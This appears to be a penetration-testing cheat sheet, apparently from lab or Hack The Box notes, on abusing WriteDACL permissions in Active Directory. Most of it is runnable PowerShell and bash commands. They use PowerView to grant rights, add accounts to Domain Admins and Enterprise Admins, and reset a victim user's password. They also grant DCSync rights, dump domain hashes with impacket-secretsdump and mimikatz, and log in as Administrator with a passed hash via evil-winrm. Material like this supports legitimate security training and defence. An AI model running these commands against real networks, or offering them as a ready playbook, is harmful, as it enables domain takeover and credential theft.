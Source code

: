 With write access to the target object’s DACL (Discretionary Access Control List) , you can grant yourself any privilege you want on the object.

#### **1. Groups: Add a Member to a Group**

**Scenario:**  
You have `WriteDACL` over a group (e.g., "Domain Admins"). Use it to grant yourself the ability to add members.

**Steps:**

1. **Import PowerView**  
   Import the PowerView module to enable Active Directory manipulation:
   ```powershell
   import-module .\powerview.ps1
   ```

2. **Set Up Credentials**  
   Create a secure credential object for the user with `WriteDACL` privileges:
   ```powershell
   $pass = convertto-securestring 'abc123!' -asplain -force
   $cred = new-object system.management.automation.pscredential('htb\MG', $pass)
   ```

3. **Modify DACL to Grant WriteMembers**  
   Use `Add-DomainObjectAcl` to allow your account to add members to the target group:
   ```powershell
   Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers -PrincipalIdentity MG -Credential $cred
   ```
   - **Why:** This modifies the DACL of the group to give the `MG` user permission to manage its membership.

4. **Add a New Member to the Group**  
   Once the DACL is modified, add a user (e.g., `NewUser`) to the group:
   ```powershell
   net user NewUser SecurePass123! /add /domain
   net group "Domain Admins" NewUser /add /domain
   ```

---

#### **2. Users: Gain Full Control Over a User**

**Scenario:**  
You have `WriteDACL` over a user. Use it to grant full control of the user object.

**Steps:**

1. **Import PowerView**  
   ```powershell
   import-module .\powerview.ps1
   ```

2. **Set Up Credentials**  
   ```powershell
   $pass = convertto-securestring 'abc123!' -asplain -force
   $cred = new-object system.management.automation.pscredential('htb\MG', $pass)
   ```

3. **Modify DACL to Grant Full Control**  
   Grant full control over the target user (e.g., `victimUser`):
   ```powershell
   Add-DomainObjectAcl -TargetIdentity victimUser -Rights All -PrincipalIdentity MG -Credential $cred
   ```
   - **Why:** This allows you to modify any attribute or permissions of the target user.

4. **Reset the User’s Password**  
   After gaining control, reset the user’s password:
   ```powershell
   Set-ADAccountPassword -Identity victimUser -Reset -NewPassword (ConvertTo-SecureString "NewPass123!" -AsPlainText -Force)
   ```

---

#### **3. Computers: Gain Full Control Over a Computer Object**

**Scenario:**  
You have `WriteDACL` over a computer object. Use it to grant full control.

**Steps:**

1. **Import PowerView**  
   ```powershell
   import-module .\powerview.ps1
   ```

2. **Set Up Credentials**  
   ```powershell
   $pass = convertto-securestring 'abc123!' -asplain -force
   $cred = new-object system.management.automation.pscredential('htb\MG', $pass)
   ```

3. **Modify DACL to Grant Full Control**  
   Grant full control over the target computer (e.g., `comp01`):
   ```powershell
   Add-DomainObjectAcl -TargetIdentity comp01 -Rights All -PrincipalIdentity MG -Credential $cred
   ```
   - **Why:** This allows modification of computer attributes or other interactions.

4. **Add the Computer to Another Group**  
   Add the computer object to a privileged group, such as "Enterprise Admins":
   ```powershell
   Add-ADGroupMember -Identity "Enterprise Admins" -Members comp01$
   ```

---

#### **4. Domains: Perform a DCSync Attack**

**Scenario:**  
You have `WriteDACL` on the domain object. Use it to grant yourself `DCSync` rights.
![Pasted image 20250501172244](https://github.com/user-attachments/assets/2161dfe3-908e-4c76-b72a-82c412583f84)
We owned SVC account and we are member of `Exchange Windows Permissions` that has a `WriteDacl` ACL on on the Domain.
Steps (On target Powershell)
**Steps:**

1. **Import PowerView**  
   ```powershell
   import-module .\powerview.ps1
   ```

2. **Set Up Credentials**  
   ```powershell
   $pass = convertto-securestring 'abc123!' -asplain -force
   $cred = new-object system.management.automation.pscredential('htb\MG', $pass)
   ```

3. **Modify DACL to Grant DCSync Rights**  
   Use `Add-DomainObjectAcl` to grant your account the `DCSync` privilege:
   ```powershell
   Add-DomainObjectAcl -TargetIdentity "testlab.local" -Rights DCSync -PrincipalIdentity MG -Credential $cred
   ```
   - **Why:** This enables your account to request replication data, including password hashes, from the domain.

4. **Perform the DCSync Attack**  
### Extract Secrets and Access Administrator

1. **Dump Secrets Using the New User**  
   Use `impacket-secretsdump` to extract secrets from the domain:
   ```bash
   impacket-secretsdump htb/MG@$IP
   ```

2. **Use the Administrator Hash to Gain Access**  
   Use `evil-winrm` to log in as `Administrator` with the extracted hash:
   ```bash
   evil-winrm -i $IP -u Administrator -H "32693b11e6aa90eb43d32c72a07ceea6"
   ```

---

This sequence shows how to extract secrets using your new account (`MG`) and leverage the extracted `Administrator` hash for privileged access.
   Or
   Use Mimikatz or similar tools to execute the DCSync attack:
   ```powershell
   mimikatz # lsadump::dcsync /user:krbtgt
   ```
